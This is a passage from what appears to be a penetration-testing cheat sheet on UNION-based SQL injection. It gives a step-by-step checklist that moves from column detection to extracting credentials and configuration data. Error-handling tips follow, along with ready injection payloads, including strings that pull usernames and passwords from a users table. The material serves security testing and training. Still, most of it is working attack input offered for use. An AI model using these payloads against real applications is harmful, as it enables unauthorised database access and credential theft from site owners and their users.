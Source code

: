 ```sql
  (SELECT username FROM users LIMIT 0,1), 
  null-- //
```

---

### UNION SQLi Testing Checklist

#### Column Detection Phase
- [ ] Test `ORDER BY 1,2,3...` until error
- [ ] Test `UNION SELECT 1,2,3...` until success
- [ ] Identify visible columns using numbered placeholders
- [ ] Verify data types of each column

#### Information Gathering Phase
- [ ] Extract database version (`@@version`)
- [ ] Extract current database (`database()`)
- [ ] Extract current user (`user()`)
- [ ] List all databases
- [ ] List tables in target database
- [ ] List columns in target tables

#### Data Extraction Phase
- [ ] Extract user credentials
- [ ] Extract sensitive configuration data
- [ ] Extract application-specific data
- [ ] Test data extraction from multiple tables

---

### Common UNION Errors & Solutions

#### Error Messages & Fixes
```sql
-- Error: "The used SELECT statements have a different number of columns"
-- Solution: Adjust column count in UNION SELECT

-- Error: "Illegal mix of collations"  
-- Solution: Use CONVERT() or CAST() functions

-- Error: "Operand should contain 1 column(s)"
-- Solution: Ensure subqueries return single column

-- Error: "Subquery returns more than 1 row"
-- Solution: Use LIMIT or WHERE clause to restrict results
```

#### Troubleshooting Techniques
```sql
-- Test basic UNION functionality
' UNION SELECT 'test',NULL,NULL,NULL-- //

-- Check data type compatibility
' UNION SELECT 1,'string',NULL,NULL-- //

-- Verify column visibility
' UNION SELECT 'col1','col2','col3','col4'-- //

-- Test with different quote types
" UNION SELECT NULL,username,password,NULL FROM users-- //
```

---